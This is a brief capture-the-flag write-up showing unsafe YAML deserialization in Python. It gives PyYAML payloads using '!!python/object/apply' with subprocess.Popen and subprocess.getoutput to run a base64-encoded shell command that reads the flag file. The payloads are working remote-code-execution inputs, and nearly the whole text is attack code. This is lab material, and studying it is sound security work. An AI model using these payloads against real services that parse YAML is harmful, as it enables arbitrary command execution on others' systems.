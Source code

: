 
### Unsafe yaml deserialization

Craft base64 cmd

```bash
┌──(bravosec㉿fsociety)-[~/ctf/fetch-the-flag-2023]
└─$ echo 'cat /flag*'|base64
Y2F0IC9mbGFnKgo=
```

Can't do with `subprocess.Popen`

```bash
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - python
  - -c
  - "__import__('os').system(str(__import__('base64').b64decode('Y2F0IC9mbGFnKgo=').decode()))"
```

![](attachment/d203de438f49de2f77d8184ab030f9d8.png)

Success with `subprocess.getoutput`

```bash
!!python/object/apply:subprocess.getoutput
  - echo Y2F0IC9mbGFnKgo= | base64 -d | bash
```

![](attachment/1a6525bdb7d56164d356536affc4e7e8.png)
